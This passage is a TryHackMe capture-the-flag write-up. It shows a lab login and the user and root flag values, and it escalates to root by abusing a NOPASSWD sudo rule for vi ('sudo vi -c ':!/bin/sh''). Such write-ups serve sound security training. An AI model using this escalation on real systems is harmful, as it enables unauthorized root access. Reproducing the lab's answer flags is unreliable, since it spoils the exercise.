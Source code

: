 ```┌──(kali㉿kali)-[~/Downloads/THM/industrialintrustion/task16]
Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Tue Jun 24 16:39:49 2025 from 10.13.57.153
dev@tryhackme-2404:~$ 
```

-> And we are in! We got the first flag, user.txt

```
dev@tryhackme-2404:~$ ls
user.txt
dev@tryhackme-2404:~$ cat user.txt 
THM{nic3_j0b_You_got_it_w00tw00t}
```

-> Let's try running sudo -l

```
dev@tryhackme-2404:~$ sudo -l
Matching Defaults entries for dev on tryhackme-2404:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User dev may run the following commands on tryhackme-2404:
    (ALL) NOPASSWD: /usr/bin/vi
```

![](attachments/Pasted%20image%2020250629143610.png)

-> Let's use this to escalate privileges

```
dev@tryhackme-2404:~$ sudo /usr/bin/vi -c ':!/bin/sh' /dev/null

# whoami
root
# cat /root/root.txt
THM{y0u_g0t_it_welldoneeeee}
```

-> With that, we found the final flag for this task!

